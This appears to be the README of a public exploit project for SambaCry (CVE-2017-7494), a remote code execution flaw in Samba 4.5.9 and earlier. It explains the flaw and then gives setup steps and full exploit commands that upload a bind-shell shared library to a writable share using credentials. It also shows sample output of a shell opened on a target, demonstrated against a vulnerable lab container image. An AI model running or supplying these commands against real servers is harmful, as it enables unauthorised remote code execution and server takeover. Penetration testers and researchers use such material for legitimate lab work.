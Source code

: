 # SambaCry RCE exploit for Samba 4.5.9

Samba is a free software re-implementation of the SMB/CIFS networking protocol. Samba provides file and print services for various Microsoft Windows clients and can integrate with a Microsoft Windows Server domain, either as a Domain Controller (DC) or as a domain member. As of version 4, it supports Active Directory and Microsoft Windows NT domains.

Samba in **4.5.9** version and before that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017-7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 does not restrict the file path when using Windows named pipes, which allows remote authenticated users to upload a shared library to a writable shared folder, and execute arbitrary code via a crafted named pipe.


## Exploit

Use `poetry` to setup the environment for this exploit

```
pip3 install -r requirements.txt
```

After that you can run it as the following:

```
./exploit -t <target> -e libbindshell-samba.so \
             -s <share> -r <location>/libbindshell-samba.so \
             -u <user> -p <password> -P 6699
```

For example, if you use the vulnerable image from `vulnerables/cve-2017-7494` and want to run this exploit against it:

```
./exploit -t <target> -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
```

And you will get the following output

```
./exploit -t <target> -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.1.1.5 at 6699
[+] Veryfying your shell...
Linux 7a4b8023575a 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u1 (2017-02-22) x86_64 GNU/Linux
>>
```

# Kudos

The payload for this project, along with the code was heavily inspired by `opsxcq/exploit-CVE-2017-7494`.
